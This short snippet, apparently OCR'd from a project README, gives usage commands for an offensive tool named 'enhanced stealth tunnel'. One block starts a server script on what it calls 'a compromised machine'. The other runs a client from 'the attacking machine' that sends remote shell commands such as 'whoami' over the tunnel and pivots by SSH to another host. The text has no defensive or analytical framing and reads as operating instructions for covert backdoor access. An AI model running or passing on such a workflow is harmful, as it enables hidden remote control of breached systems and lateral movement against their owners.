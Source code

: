 # 1. On a compromised machine
cd /opt/enhanced-stealth-tunnel
python3 enhanced_stealth_tunnel.py --generate-config
# Editing enhanced_tunnel_config.json
python3 enhanced_stealth_tunnel.py -c enhanced_tunnel_config.json

# 2. From the attacking machine
python3 enhanced_client.py 192.168.1.50 -k tunnel.key --shell "whoami"
python3 enhanced_client.py 192.168.1.50 -k tunnel.key --ssh 198.51.100.10
